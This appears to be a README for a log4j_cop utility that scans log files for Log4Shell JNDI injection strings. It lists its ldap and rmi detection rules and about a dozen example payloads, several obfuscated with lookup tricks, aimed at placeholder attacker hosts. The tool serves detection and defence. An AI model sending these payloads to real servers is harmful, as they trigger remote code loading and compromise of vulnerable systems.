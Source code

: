 # log4j_cop

Detect log4j payloads from a log file.

**Usage:**

```bash
./log4j_cop <LOG_FILE>
```

## Rules

Currently the following rules (and variants) are being accounted for:

* ${jndi:ldap://
* ${jndi:rmi://

## Algorithm

Each line is broken into characters and we check whether these characters match
one of our rulesets in the correct order, ignoring characters that do not match.

## Examples being matched

```
${jndi:ldap://whatever.com/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```
